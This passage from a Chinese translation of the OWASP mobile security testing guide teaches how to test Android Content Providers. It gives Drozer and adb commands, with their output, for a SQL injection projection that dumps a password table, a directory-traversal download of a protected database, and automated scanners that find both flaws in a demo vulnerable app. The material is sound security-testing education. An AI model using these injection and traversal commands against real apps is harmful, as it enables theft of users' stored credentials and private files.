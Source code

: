 SQL 注入也可用于从其他受保护的表中检索数据：

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

您可以使用该模块自动执行这些步骤，该`scanner.provider.injection`模块会自动在应用程序中查找易受攻击的Content Provider(内容提供者)：

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

#### 基于文件系统的Content Provider(内容提供者)[¶](https://mas.owasp.org/MASTG/Android/0x05d-Testing-Data-Storage/#file-system-based-content-providers)

Content Provider(内容提供者)可以提供对底层文件系统的访问。这允许应用程序共享文件（Android 沙箱通常会阻止这种情况）。您可以使用 Drozer 模块`app.provider.read`和`app.provider.download`分别从导出的基于文件的内容提供程序读取和下载文件。这些Content Provider(内容提供者)容易受到目录遍历的影响，这允许读取目标应用程序沙箱中其他受保护的文件。

```
dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db
Written 24488 bytes
```

使用该`scanner.provider.traversal`模块自动执行查找易受目录遍历影响的内容提供程序的过程：

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

请注意，`adb`也可用于查询Content Provider(内容提供者)：

```
$ adb shell content query --uri content://com.owaspomtg.vulnapp.provider.CredentialProvider/credentials
Row: 0 id=1, username=admin, password=StrongPwd
Row: 1 id=2, username=test, password=test
...
```
